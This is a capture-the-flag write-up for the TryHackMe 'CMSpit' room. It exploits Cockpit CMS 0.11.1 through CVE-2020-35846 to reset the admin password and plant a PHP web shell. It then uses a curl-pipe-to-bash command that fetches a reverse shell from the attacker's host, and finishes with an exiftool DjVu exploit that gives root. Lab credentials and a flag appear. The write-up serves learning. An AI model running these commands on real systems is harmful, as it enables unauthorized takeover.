 # 79 - CMSpit (CockPit CMS exploitation, MongoDB exploitation)

Room Link --> [https://tryhackme.com/room/cmspit](https://tryhackme.com/room/cmspit)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```
nmap -Pn -n -vvv -T4 10.10.152.31 -p-


```
{% endcode %}

The webserver is running `CockPit CMS version 0.11.1` .

Default credentials didn't work.&#x20;

Some Resources used to answer the Questions:

* [https://exploit-notes.hdks.org/exploit/web/cms/cockpit-cms-pentesting/](https://exploit-notes.hdks.org/exploit/web/cms/cockpit-cms-pentesting/)
*

### Users Enumeration

Tool link --> [https://github.com/0z09e/CVE-2020-35846](https://github.com/0z09e/CVE-2020-35846)

```bash
dking@dking ~/Downloads$ python3 exploit.py http://10.10.152.31/                                            2 ↵  
[*] Target : http://10.10.152.31
[*] Sending request to dump users.
[+] Found Users : ['admin', 'darkStar7471', 'skidy', 'ekoparty']
[+] Changing password of admin
[*] Requesting for password reset token
[+] Found token for user admin : rp-247cb14d16593ad15dcaf8483dccc6906557d48fa0ce0
[+] Dumping admin's data
[+] Username : admin
[+] Email : admin@yourdomain.de
[+] Group : admin
[+] Hash : $2y$10$dChrF2KNbWuib/5lW1ePiegKYSxHeqWwrVC.FN5kyqhIsIdbtnOjq
[*] Resetting admin's password.
[+] Password reset succcessful
[+] New password of admin : P@ssw0rd
[*] Logging in as admin
[+] Successfully logged in as admin
[+] Bingoo, File has been deployed successfully : 1HpuLW.php
[+] File's location : http://10.10.152.31/1HpuLW.php
[*] Execution example : http://10.10.152.31/1HpuLW.php?cmd=id
[+] Output : uid=33(www-data) gid=33(www-data) groups=33(www-data)
[+] Good luck for Privilege Escalation :)

```

```
[+] Found Users : ['admin', 'darkStar7471', 'skidy', 'ekoparty']
```

Password for `admin` has been reset to `P@ssw0rd`&#x20;

We have RCE on this link --> [http://10.10.152.31/1HpuLW.php?cmd=id](http://10.10.152.31/1HpuLW.php?cmd=id)

<figure><img src=".gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Copied bash rev shell into a `shell.sh` in my kali, then host it with python3 web server, setup NC listener then execute:&#x20;

[http://10.10.152.31/1HpuLW.php?cmd=curl%20http://10.18.88.214/shell.sh|bash](http://10.10.152.31/1HpuLW.php?cmd=curl%20http://10.18.88.214/shell.sh|bash)

And got shell.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to stux

Goto `/home/stux` dir, there is a `.dbshell` file there it contains history of MongoDB cmds.

```bash
www-data@ubuntu:/home/stux$ cat .dbshell
cat .dbshell
show
show dbs
use admin
use sudousersbak
show dbs
db.user.insert({name: "stux", name: "p4ssw0rdhack3d!123"})
show dbs
use sudousersbak
show collections
db
show
db.collectionName.find()
show collections
db.collection_name.find().pretty()
db.user.find().pretty()
db.user.insert({name: "stux"})
db.user.find().pretty()
db.flag.insert({name: "thm{c3d1af8da23926a30b0c8f4d6ab71bf851754568}"})
show collections
db.flag.find().pretty()
www-data@ubuntu:/home/stux$ 
```

`stux : p4ssw0rdhack3d!123` .

And we ssh into stux acct.

### Priv Esc to root

`sudo -l` .

```bash
stux@ubuntu:~$ sudo -l
Matching Defaults entries for stux on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User stux may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/local/bin/exiftool

```

Check exiftool version: `exiftool -ver` --> 12.05

Search for the exploit in google.

[https://gist.github.com/ihebski/cfbec41067f259efdc07f1587b268ab2](https://gist.github.com/ihebski/cfbec41067f259efdc07f1587b268ab2)

```
1. Convert any PDF file to .djvu;
pdf2djvu document.pdf -o fuzz.djvu 

2. create file.dsed
(metadata
        ("\c${system '/bin/bash'}")
.

3. Generate the exploit file
djvumake fuzz.djvu INFO=0,0 BGjp=/dev/null ANTa=file.dsed

4. launch it.
sudo /usr/local/bin/exiftool fuzz.djvu
```

Got root.

